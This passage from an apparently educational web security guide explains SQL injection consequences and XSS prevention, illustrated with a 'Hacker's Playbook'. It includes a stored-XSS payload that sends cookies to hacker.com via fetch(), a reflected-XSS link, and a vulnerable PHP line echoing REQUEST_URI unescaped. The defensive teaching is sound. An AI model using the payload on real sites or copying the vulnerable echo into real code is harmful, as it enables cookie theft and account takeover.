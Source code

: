 **Disaster Consequences 💥**

Attackers can bypass login, steal entire database data (user lists, password hashes), or even delete the database.

### 【Prevent Cross-Site Scripting (XSS)】

**Why is this important?**

If your website is like a mirror that directly reflects user input content, then users can embed malicious JavaScript scripts in the content. When other users browse this content, the malicious script will execute in their browsers, stealing their information. HTML entity encoding converts special characters in malicious scripts (like `<`, `>`) into harmless plain text, making them unable to execute.

**Hacker's Playbook 😈**
> I left a comment in your article comment section: `<script>fetch('https://hacker.com/steal?cookie=' + document.cookie)</script>`. This text was stored in the database as-is. Now, any user reading this comment will have their browser automatically execute this script, sending their login cookies to my server. With the cookies, I can impersonate their identity to log into the website.

**Advanced Attack Method: How Can Code from User A Steal User B's Data?**

Many people wonder: "The attacker didn't modify my website, so how can they steal other users' data?" Let me explain with a complete example:

1. **Attacker A creates a malicious link**
   ```
   https://yoursite.com/detail.php?id=1<script>steal()</script>
   ```

2. **Attacker tricks victim B through social engineering**
   - Email: "Check out this photographer's amazing work!"
   - Social media posts, forum comments, etc.

3. **What happens when victim B clicks the link?**
   ```php
   // Your code (vulnerable)
   <meta property="og:url" content="<?php echo $_SERVER['REQUEST_URI']; ?>">
   
   // Actual output to B's browser
   <meta property="og:url" content="/detail.php?id=1<script>steal()</script>">
   ```

4. **Why can they steal B's data?**
   - B is already logged into your website
   - The malicious script runs under **your domain**, so it can:
     - Read B's cookies (login credentials)
     - Access B's localStorage
     - Make requests as B
     - Modify page content (e.g., fake login forms)

**Simple Analogy**
Imagine your website is a bank:
- Attacker A places a "fake withdrawal slip" (malicious script) in the bank lobby
- Customer B thinks it's legitimate and fills in their password
- A gets B's password
